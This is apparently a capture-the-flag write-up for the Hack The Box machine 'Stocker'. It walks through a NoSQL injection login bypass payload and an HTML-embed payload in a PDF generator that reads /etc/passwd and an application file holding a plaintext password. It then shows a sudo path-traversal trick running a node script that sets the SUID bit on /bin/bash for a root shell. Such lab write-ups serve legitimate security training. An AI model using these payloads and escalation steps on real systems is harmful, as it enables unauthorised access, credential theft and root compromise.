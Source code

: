 # HTB - Stocker

## Summary

This was a pretty easy box. The web exploitation is actually the hard part of this one, the privesc is very easy. First we need to bypass a nosql login page with injection. Then, we do some Server Side Template Injection on a pdf generation request to have the resulting downloaded pdf contain files from the machine. This allows us to leak a user's password. Then, we just abuse a sudo command to get root.  

<br />

## Enumeration and nosql Login Bypass

nmap shows port 22 and 80 open, and tells us that there is a redirect to `stocker.htb` on 80. Add that to `/etc/hosts`  

We can bust subdomains with:  
`gobuster vhost -u http://stocker.htb/ -w /usr/share/wordlists/dnsmap.txt`  
and we find `dev.stocker.htb` add it to `/etc/hosts` and go there  

Its a login form. Its not vulnerable to sql injection but it is vulnerable to nosql injection. To do this, we send a request to burp, change the content type to `application/json` and then change the content to the following:  
Nosql injection, basic login bypass:  
`{"username": {"$ne": null}, "password": {"$ne":null}}`  
(See more here: https://book.hacktricks.xyz/pentesting-web/nosql-injection)  

<br />

## PDF SSTI

This gets us to a page which lets us add items to a cart and checkout. When we checkout, we can download a pdf receipt.  

Intercepting the checkout request, we can see the pdf generation request as part of the payload. We can modify the fields, and change the item field to the following:  
`<embed type='text/html' src='file:///etc/passwd' width=1000px height=1000px>`  

The resulting pdf contains the contents of `/etc/passwd`  

Grabbing `/var/www/dev/index.js` is ultimately what allows us to get an ssh shell as the user angoose, because the password is written in plaintext there (`IHeardPassphrasesArePrettySecure`)  

<br />

## Privesc

`sudo -l` shows us:  
`(ALL) /usr/bin/node /usr/local/scripts/*.js`  

Using this, we will be able to get a shell as root:  

create a node-runnable js file with the contents:  
```javascript
const { exec } = require('node:child_process');

exec('chmod u+s /bin/bash', (err, output) => {
    if (err) {
        console.error("could not execute command: ", err);
        return;
    }
    console.log("output: ", output);
})
```

We don't have write permissions to the directory `/usr/local/scripts` but this actually doesn't matter. Just put the escalation script in `/tmp` and run:  
`sudo /usr/bin/node /usr/local/scripts/../../../tmp/privesc.js`  

And we are good  
Now `/bin/bash` has the suid bit, so running `/bin/bash -p` gets us a root shell  

